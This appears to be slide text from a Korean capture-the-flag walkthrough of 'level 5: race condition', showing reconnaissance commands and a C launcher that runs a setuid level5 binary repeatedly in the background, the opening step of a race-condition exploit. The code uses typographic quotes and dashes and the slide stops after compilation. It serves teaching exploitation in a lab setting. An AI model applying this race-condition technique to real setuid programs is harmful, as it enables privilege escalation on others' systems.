

# level 5: 레이스 컨디션
level5 / what is your name?

$ ls
$ cat hint
$ find / -name level5 2> /dev/null
$ /usr/bin/level5
$ cd /tmp
$ vi runTarget.c
	# include <unistd.h>
	int main()
	{
		int i;
		for(i=0; i<=10; i++)
		{
			system(“/usr/bin/level5 &”);
		}
	}
$ gcc –o runTarget runTarget.c